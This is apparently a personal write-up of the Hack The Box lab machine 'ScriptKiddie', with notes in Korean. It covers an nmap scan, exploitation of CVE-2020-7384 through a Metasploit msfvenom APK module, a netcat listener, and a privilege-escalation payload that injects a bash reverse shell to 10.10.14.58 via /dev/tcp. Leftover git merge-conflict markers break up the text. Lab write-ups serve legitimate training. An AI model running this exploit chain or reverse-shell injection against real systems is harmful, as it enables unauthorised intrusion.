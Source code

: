 ## Machine: ScriptKiddie
- Date: 2021.05.02
- Author: jak010

### Setup
- ExportIP: 10.10.10.226


### Nmap Scan
```text
# Nmap 7.91 scan initiated Sun May  2 15:52:33 2021 as: nmap -sC -sV -oA nmap/initial 10.10.10.226
Nmap scan report for 10.10.10.226
Host is up (0.21s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May  2 15:52:51 2021 -- 1 IP address (1 host up) scanned in 17.95 seconds
```

### Interesting
- 사용자가 입력한 값을 결과로 보여주고 있음
- `Payloads`를 입력받는 곳에서 플랫폼을 선택할 수 있음
	- windows
	- linux
	- android

### Malicious Payload
- `exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`
	- Refer to
		- `https://nvd.nist.gov/vuln/detail/CVE-2020-7384`
		- `https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/`

### Exploit && Ganing Shell
- Payload Generate
    ```sh
    msf6 > search apk_template
    msf6 > use 0
    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LHOST 10.10.14.58
    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > exploit
    [+] msf.apk stored at /Users/jak/.msf4/local/msf.apk
    ```
- Reverse Shell
<<<<<<< HEAD
	- OS X
        ```sh
        $ nc -nvl 4444
        ``` 

=======
    ```sh
    $ nc -nvl 4444
    ``` 
        
>>>>>>> 1bc3e04b2c11ec86471a16769f77969d86f65579
### Priviliege Escalate
- Payload
    ```sh 
    $ echo “ ;/usr/bin/bash -c ‘/usr/bin/bash -i >& /dev/tcp/10.10.14.58/9001 0>&1’ #” >> hackers
    ```


